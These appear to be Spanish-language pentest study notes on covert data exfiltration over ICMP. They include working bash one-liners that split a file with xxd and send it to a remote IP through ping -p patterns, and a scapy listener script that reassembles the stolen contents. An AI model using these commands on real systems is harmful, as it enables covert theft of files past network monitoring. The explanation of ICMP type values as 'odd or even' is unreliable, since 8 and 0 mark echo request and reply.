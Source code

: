 ----
- Tags: #teoria #practica 
----

# IMCP (Internet Menssager  Control Protocol)

El protoclo de mansajes de control de internet o **ICMP** es parte del conjutno del protocolo IP. Es utilizado para enciar mensajes de error e información operatia. 

-----

# Exfiltración de data 

Existe una técnica muy interesante para exfiltrar data haciendo uso de la herramienta **ping** y utilidades en python como el modulo **scapy** (pip3 install scapy), esto quiere decir que seríamos capaz de envíar el contenido de todo un archivo mediante traszas icmp para posteriormente hacinedo uso de **scapy** obtener su contenido.

----

# Concepto 

La herramienta **ping** tiene un parametro el cual es **-p** que nos permite envíar un patrón personalizado que se envía en los paquetes de solicitud de ping. Mayormente se utiliza para verificar la integridad de los paquetes de respuesta recibidos. Cada vez qeu se envía un paquede de ping con un patrón personalizado, el sistema receptor debería devolver un paquete de respuesta que coincida con el patrón enviado. 

Por lo que entendemos, este patrón puede ser **personalizado**, permitiendonos así envíar valores hexadecimales que querramos. 

Por otro lado, la herramienta **xxd** nos permite pasar valores a hexadecimal, esta herramienta puede transformar a hexadecimal un archivo completo e incluso separarlo en partes, es decir, de 4 en 4, de 5 en 5, de 20 en 20, como querramos. 

Si juntamos estos dos conceptos, la idea sería transformar un archivo en hexadecimal alternandolo en valores (Recomendado de 4 en 4) para recorrer cada par de estos 4 bytes y envíar una traza icmp con el patrón que corresponde a estos 4 bytes que íran alternando del archivo que se busca leer, para que de manera posterior con un script en python, haciendo uso de **scapy** poder transformar todas estas trazas a el contenido original del archivo. 

----

# Exfiltracion de data 

- ## Envío y recibimiento de trazas icmp 

Como vimos, lo primero sería leer todo el archivo para separarlo en pares de 4 bytes y posteriormente envíar trazas icmp con el valor de estos bytes como patrón. 

```bash
xxd -p -c 4 {file_to_read} | while read line; do ping -c 1 -p $line {ip}; done 

for line in $(xxd -p -c 4 {file_to_read}); do ping -c 1 -p $line {ip}; done
```

De manera alterna, previo a realizar esto, deberíamos estar almacenando todas las trazas icmp envíadas en un archivo de captura. 

```bash
sudo tcpdump -i {interfaz} icmp -n -v -w Captura.cap
```

De esta manera estaremos en escucha de todas las trazas icmp recibidas por una determinada interfaz y estaremos alojando todas estas en un archivo llamado **Captura.cap** 

Una vez realizado esto ya tendríamos todas las trazas almacenadas listas para ser leidas y obtener la información de interez en el patrón de cada una de estas, para eso usarémos **scapy**. 

-----

- ## Scapy

Para leer un archivo con scapy podrémos hacer uso de la función **rdpcap**, posteriormente para ver cada paquete podríamos guardar el contenido arrojado de la función rdpcac en una variable la cual se convertirá en un array donde cada posición corresponde a un paquete. De esta manera pudiendo acceder a cada paquete, cada uno de estos contiene **layers** como Ether, IP, ICMP, etc. de manera que podríamos acceder a layers para acercarnos más a la información que nos interesa. Una vez que seleccionamos una layer podríamos listar con la función **ls** los atributos de las layers así como acceder a los atributos de las layers. 

```python
from scapy.all import *

packets = rdpcap("{path_file_.cap}")

# Acceder a distintos paquetes 
print(packets[0])

# Acceder a una layer de un paquete 
packets[0][ICMP]

# Listar los atributos de las layers
ls(packets[0][ICMP])

# Acceder a un atributo 
packets[0][ICMP].load
```

En la layer **ICMP** atributo **load** tendríamos los patrónes envíados a travez de cada una de las trazas icmp transmitidas. Ahora, es **importante** tener en cuenta que los paquetes van a estar repetidos como también puede ser que no contenga la layer ICMP, de manera que para poder listar los contenidos de manera correcta nos deberíamos asegurar de que los paquetes no se repitan, esto lo podríamos realizar con la función **.type** la cual devuelce 8 o 0 dependiendo de si es impar o par. Mientras que el asegurarnos de que el paquete tenga la layer ICMP lo podemos hacer con la función **.haslayer**. 

```bash
# ........

# Verificar el tipo del paquete, si es par o impar
packet[0].type

# Verificar si el primer paquete tiene una determinada layer
packet[0].haslayer(ICMP)
```

De esta manera podríamos utilizar toda esta información para realizar un script en python el cual se encargue de leer un archivo .cap y arrojarnos la información gracias a acceder a todos los patrónes de cada una de las trazas icmp alojadas en el archivo. 

```python
from scapy.all import * 
import signal, sys, readline, os

# Configuration 

readline.parse_and_bind("set editing-mode emacs")

# Ctrl + c

def ctrl_c(sig, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c) 

# Data exfiltration

def sniffTrafic(interface):
    print("\n[+] Your file content: \n")
    sniff(iface=interface, prn=readICMPpatterns)
    

def readICMPpatterns(packet): 
    
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:
        line = packet[ICMP].load[-4:].decode('utf-8')
        print(line, flush=True, end='')


if __name__ == "__main__": 
    
    if os.geteuid() == 0:
        interface = input("\n\t[!] Please insert the interface to listen: ")
        sniffTrafic(interface) 
    else: 
        print("\n\n\t[!] Please run the script as root ツ\n\n")

```